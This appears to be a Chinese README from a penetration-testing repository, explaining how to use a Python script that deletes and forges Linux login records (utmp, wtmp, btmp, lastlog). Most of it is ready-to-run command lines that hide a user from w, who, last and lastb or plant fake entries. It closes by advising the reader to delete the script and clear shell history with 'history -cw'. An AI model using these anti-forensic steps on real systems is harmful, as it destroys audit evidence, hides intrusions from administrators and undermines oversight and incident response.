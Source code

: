 ## 渗透测试TIPS之删除、伪造Linux系统登录日志  
> 来源于[freebuf](https://www.freebuf.com/articles/system/141474.html)，文章备份:[渗透测试TIPS之删除伪造Linux系统登录日志.pdf](渗透测试TIPS之删除伪造Linux系统登录日志.pdf),但是文章脚本失效了,我保存了一份.
### 适用于 Linux 系统，[`fake_login_log.py`](https://github.com/Mr-xn/Penetration_Testing_POC/blob/master/ssh/fake_login_log.py) 脚本默认适用于`python2`版本，需要`Root`权限！
## 演示:  
![show img](./fake_login_log.gif)
## USEAGE  
### 删除日志  
1. 删除utmp记录，将自己从w或者who输出中隐藏  
`python fake_login_log.py --mode delete --type utmp --user root` //删除用户为root的用户记录  
`python fake_login_log.py --mode delete --type utmp --user root --host "58.47.251.255" `//删除用户为root且登录来源host为58.47.251.255的用户记录  
2. 删除历史登录记录(wtmp)，隐藏last的记录  
`python fake_login_log.py --mode delete --type wtmp --user root --host "111.30.32.213" `//删除用户为root且登录来源host为111.30.32.213的用户记录
3. 删除btmp记录，隐藏lastb的记录，lastb为登录失败的用户记录  
`python fake_login_log.py --mode delete --type btmp --user root --host "172.16.50.156" `//删除用户为root且登录来源host为127.0.0.1的用户记录  
4. 删除lastlog记录，不能通过用户删除，只能通过host或者时间  
`python fake_login_log.py --mode delete --type lastlog --host "172.16.50.1" `//删除来源host的用户登录记录  
`python fake_login_log.py --mode delete --type lastlog --date "2017-8-2 22:46:34" `//删除登录时间为2017-8-2 22:46:34的用户登录记录  

### 伪造日志  
1. 伪造utmp记录，将自己从w或者who输出中伪造  
`python fake_login_log.py --mode add --type utmp --user nobody --tty "pts/8" --pid 25394 --date "2017-8-2 22:46:34" --host "127.0.0.1" `//伪造用户为nobody的用户记录  
> 这里伪造的时间和host可以通过who命令去找到，PID一般伪造bash或者ssh通过`ps -aux | grep ssh/bash`去寻找  
2. 伪造历史登录记录(wtmp)，伪造last的记录  
`python fake_login_log.py --mode add  --type wtmp --user root --tty "pts/7" --date "2017-8-2 00:06:34" --host "127.0.0.1" `  
3. 伪造btmp记录，伪造lastb的记录，lastb为登录失败的用户记录  
`python fake_login_log.py --mode add  --type btmp --user root --tty "pts/7" --date "2017-8-2 00:06:34" --host "127.0.0.1" `//伪造用户为root且登录来源host为127.0.0.1的用户登录失败记录  
4. 伪造lastlog记录  
`python fake_login_log.py --mode add --type=lastlog --user=rootclay --date="2017-7-24 14:22:07" --tty "pts/2" --host "127.0.0.1" `//伪造用户为rootclay 时间2017-7-24 14:22:07 来源登录ip为127.0.0.1的用户登录记录  

> PS: 执行完这些命令之后删除掉`fake_login_log.py`本身然后使用`history -cw`清除一下历史记录.美滋滋

